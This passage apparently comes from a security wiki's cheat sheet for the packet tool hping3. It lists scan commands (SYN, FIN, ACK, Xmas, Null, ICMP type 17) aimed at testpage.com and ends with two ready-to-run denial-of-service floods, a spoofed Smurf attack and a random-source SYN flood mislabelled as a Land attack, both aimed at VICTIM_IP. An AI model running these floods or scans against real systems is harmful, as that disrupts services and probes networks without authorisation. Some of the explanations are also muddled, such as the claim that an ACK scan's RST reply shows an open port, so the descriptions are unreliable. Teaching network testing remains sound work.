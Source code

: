 **Checking port:** Here hping3 will send a Syn packet to a specified port (80 in our example). We can control also from which local port will start the scan (5050).

```
hping3 — traceroute -V -S -p 80 -s 5050 testpage.com
```

<mark style="color:green;">**Other types of ICMP:**</mark> This example sends a ICMP address mask request ( Type 17 ).

```
hping3 -c 1 -V -1 -C 17 testpage.com
```

for testing other ICMP types check out the [`ICMP`](../network-attacks/broken-reference/) protocol section.

<mark style="color:green;">**Other types of Port Scanning:**</mark> First type we will try is the FIN scan. In a TCP connection the FIN flag is used to start the connection closing routine. If we do not receive a reply, that means the port is open. Normally firewalls send a RST+ACK packet back to signal that the port is closed.

```
hping3 -c 1 -V -p 80 -s 5050 -F testpage.com
```

<mark style="color:green;">**Ack Scan:**</mark> This scan can be used to see if a host is alive (when Ping is blocked for example). This should send a RST response back if the port is open.

```
hping3 -c 1 -V -p 80 -s 5050 -A testpage.com
```

<mark style="color:green;">**Xmas Scan:**</mark> This scan sets the sequence number to zero and set the URG + PSH + FIN flags in the packet. If the target device’s TCP port is closed, the target device sends a TCP RST packet in reply. If the target device’s TCP port is open, the target discards the TCP Xmas scan, sending no reply.

```
hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF testpage.com
```

<mark style="color:green;">**Null Scan:**</mark> This scan sets the sequence number to zero and have no flags set in the packet. If the target device’s TCP port is closed, the target device sends a TCP RST packet in reply. If the target device’s TCP port is open, the target discards the TCP NULL scan, sending no reply.

```
hping3 -c 1 -V -p 80 -s 5050 -Y testpage.com
```

<mark style="color:green;">**Smurf Attack:**</mark> This is a type of denial-of-service attack that floods a target system via spoofed broadcast ping messages.

```
hping3 -1 — flood -a VICTIM_IP BROADCAST_ADDRESS
```

<mark style="color:green;">**DOS Land Attack:**</mark>

```
hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 — flood — rand-source VICTIM_IP
```
